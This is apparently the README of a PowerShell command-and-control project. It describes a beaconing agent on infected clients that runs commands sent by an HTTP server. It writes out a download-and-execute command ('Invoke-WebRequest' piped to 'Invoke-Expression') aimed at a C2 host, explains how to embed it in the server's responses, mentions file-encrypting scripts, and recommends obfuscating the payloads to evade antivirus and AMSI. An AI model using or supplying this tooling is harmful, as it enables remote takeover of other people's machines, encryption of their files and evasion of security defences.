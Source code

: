 [![Obfuscate PowerShell Files](https://github.com/AndreiVladescu/Powershell-C2/actions/workflows/obfuscation_job.yml/badge.svg?event=push)](https://github.com/AndreiVladescu/Powershell-C2/actions/workflows/obfuscation_job.yml)
# Powershell-C2 Server

This is a primitive c2 server through an HTTP server. After the client has been infected with the  beaconing agent, it waits for a random time before requesting data from the C2. The beacon agent will execute the command sent.

### Script structure
Some of powershell scripts that are included must be modified before-hand, with correct URLs or IPs. Be sure to read them and understand them before running, and be especially aware of the encrypting stuff. Know your keys, so that if in case you encrypt by mistake some files, you can recover them after.

Scripts are split into multiple folders with the type of attack  it encompasses.

### Script calling
To execute a script, use the following command in the field of `response_content`:
`Invoke-WebRequest -Uri "http://<c2_ip>:<c2_port>/<resource_name>"  | Invoke-Expression`

One example would be:
`Invoke-WebRequest -Uri "http://10.0.2.2:8080/shrek_wallpaper"  | Invoke-Expression`, which calls resource `shrek_wallpaper` from the C2, that's available at `10.0.2.2`, on port `8080`. 

This command is inserted in the line of response_content of the C2 python file:
`response_content = r'''Invoke-WebRequest -Uri "http://10.0.2.2:8080/shrek_wallpaper"  | Invoke-Expression'''`

### Obfuscating the scripts

The payloads will need some obfuscation, as antivirius solutions will definitely pick up the signatures of base64 encoding or other things. Some links which I used to obfuscate are:

 - [PowerShell-Obfuscation-Bible](https://github.com/t3l3machus/PowerShell-Obfuscation-Bible)
 - [AMSITrigger](https://github.com/RythmStick/AMSITrigger)
 
 Things you need to do are described in Powershell Obfuscation Bible. 


